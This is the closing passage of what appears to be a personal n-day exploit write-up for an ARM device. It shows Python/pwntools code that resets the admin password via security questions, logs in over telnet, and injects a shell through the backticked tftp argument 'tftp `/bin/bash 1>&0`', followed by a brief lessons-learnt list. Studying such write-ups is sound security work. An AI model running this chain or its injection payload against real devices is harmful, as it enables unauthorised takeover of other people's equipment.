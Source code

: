 ```python

newpassword = "buymeacoffee123A@"
print("\n3. Resetting password...")
print(client.set_password(
    old_pw=newpassword,
    new_pw=newpassword,
    q1_id=str(q1), q1_ans="lmao",
    q2_id=str(q2), q2_ans="overshrek"
))

io = remote(IP, 23)

sla =io.sendlineafter
sa = io.sendafter

sla(b"Login: ", b"admin")
sla(b"Password: ", newpassword.encode())

sla(b"> ", b"tftp `/bin/bash 1>&0`")

io.interactive()
```

Result:
![](img/finalresult.png)

## 4. What I learnt
-   Setup environment for debugging
-   A little bit of ARM
-   Mindset how to dev nday
I believe that's all I can learn from it :)). The end!

